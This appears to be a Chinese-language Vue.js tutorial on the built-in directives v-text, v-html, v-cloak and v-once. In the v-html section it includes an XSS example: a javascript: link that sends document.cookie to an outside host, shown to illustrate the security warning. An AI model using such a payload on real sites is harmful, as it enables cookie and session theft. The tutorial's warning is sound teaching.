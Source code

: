 
## 2、内置指令
### （1）v-text
作用： 向其所在的节点中渲染文本内容。
2.与插值语法的区别：v-text会替换掉节点中的内容，{{xx}}则不会
```vue
<div>你好，{{name}}</div>
<div v-text="name"></div>

new Vue({
	el:'#root',
	data:{
		name:'尚硅谷',
	}
})
```

### （2）v-html
作用：向指定节点中渲染包含html结构的内容

1. 与插值语法的区别：
			(1).v-html会替换掉节点中所有的内容，{{xx}}则不会。
		(2).v-html可以识别html结构

2. 严重注意：v-html有安全性问题
    (1).在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击
    (2).一定要在可信的内容上使用v-html，永远不要用在用户提交的内容上！

```vue
	<div v-html="str"></div>
	<div v-html="str2"></div>

new Vue({
	el:'#root',
	data:{
		str:'<h3>你好啊！</h3>',
		str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>资源查找</a>'}
		})
```

### （3）v-cloak
1. 本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性
2. 使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题
```vue
<h2 v-cloak>{{name}}</h2>

<style>
	[v-cloak]{
		display:none;
	}
</style>
```
### （4）v-once
1. v-once所在节点在初次动态渲染后，就视为静态内容了
2. 以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能
相当于写上v-once后保存初始值
